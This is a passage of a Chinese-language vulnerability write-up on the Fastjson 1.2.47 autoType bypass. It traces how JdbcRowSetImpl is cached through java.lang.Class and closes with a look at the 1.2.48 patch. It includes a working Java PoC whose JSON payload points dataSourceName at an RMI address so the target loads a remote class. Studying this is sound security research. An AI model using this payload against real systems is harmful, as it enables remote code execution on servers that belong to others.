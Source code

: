 这里将com.sun.rowset.JdbcRowSetImpl通过put放入map的缓存中

当下一次执行到checkAutoType的时候会通过TypeUtils.getClassFromMapping获取到map缓存的类

![image-20220303224139981](images/27.png)

跟进TypeUtils.getClassFromMapping

![image-20220303224216599](images/28.png)

这样就获取到了我们的利用类com.sun.rowset.JdbcRowSetImpl，后面的流程就是一样的了

## 漏洞复现

POC

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;

public class Unser {
    public static void main(String[] argv) throws Exception{
        String payload = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "        \"dataSourceName\":\"rmi://127.0.0.1:1099/badNameClass\",\n" +
                "        \"autoCommit\":true\n" +
                "    }\n" +
                "}";
        JSON.parse(payload);
    }
}

```

![image-20220303224949902](images/29.png)



# 1.2.48补丁分析

在这里的loadClass将缓存开关cache设置为false

![image-20220303230042990](images/30.png)

无法进入这里的if判断，就不能将利用类写入缓存了

![image-20220303230236784](images/31.png)
